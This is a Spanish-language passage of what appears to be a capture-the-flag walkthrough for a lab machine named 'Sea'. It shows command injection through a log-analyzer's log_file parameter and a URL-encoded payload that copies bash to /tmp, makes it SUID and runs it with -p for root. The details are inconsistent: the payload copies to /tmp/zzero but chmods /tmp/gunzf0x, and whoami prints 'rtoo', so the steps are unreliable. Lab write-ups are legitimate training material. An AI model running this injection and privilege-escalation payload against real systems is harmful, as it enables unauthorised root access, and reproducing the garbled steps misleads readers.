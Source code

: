 emos entrado

vemos un boton de analyze. si le damos
![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/Sea/Pasted-image-20241228180232.png]]

vemos un barullo enorme

vale vamos a captura la peticion con burpsuite

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/Sea/Pasted-image-20241228180452.png]]

vemos como hce la peticion
basicamente esta especificando un archivo en el sistema

si probamos a leer el etc/passwd de esta forma

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/Sea/Pasted-image-20241228180633.png]]

nos lo da a medias
Intentando una inyección de comandos como `/etc/passwd;id` el archivo es ahora mostrado completamente (no parcialmente como era antes):

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/Sea/Pasted-image-20241228180737.png]]

vale tenemos ejecucion remota de archivos 
por lo que podriamos intentar hacer un archivo suid para escalar privileguios de esta forma

```bash
log_file=/etc/passwd%3bcp+/bin/bash+/tmp/zzero%3b+chmod+4755+/tmp/gunzf0x%3bid&analyze_log=
```
![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/Sea/Pasted-image-20241228181134.png]]

si ahora vemos que hay en tmp
```shell-session
amay@sea:~$ ls -la /tmp

total 1212
drwxrwxrwt 14 root root    4096 Nov 16 06:36 .
drwxr-xr-x 19 root root    4096 Feb 21  2024 ..
drwxrwxrwt  2 root root    4096 Nov 16 02:19 .font-unix
-rwsr-xr-x  1 root root 1183448 Nov 16 06:36 gunzf0x
drwxrwxrwt  2 root root    4096 Nov 16 02:19 .ICE-unix
drwx------  2 root root    4096 Nov 16 02:19 snap-private-tmp
<SNIP>
```

Podemos ejecutarlo como el propietario (que será `root`) usando el binario junto con la flag `-p`:

```shell-session
amay@sea:~$ /tmp/gunzf0x -p

gunzf0x-5.0# whoami
rtoo
```
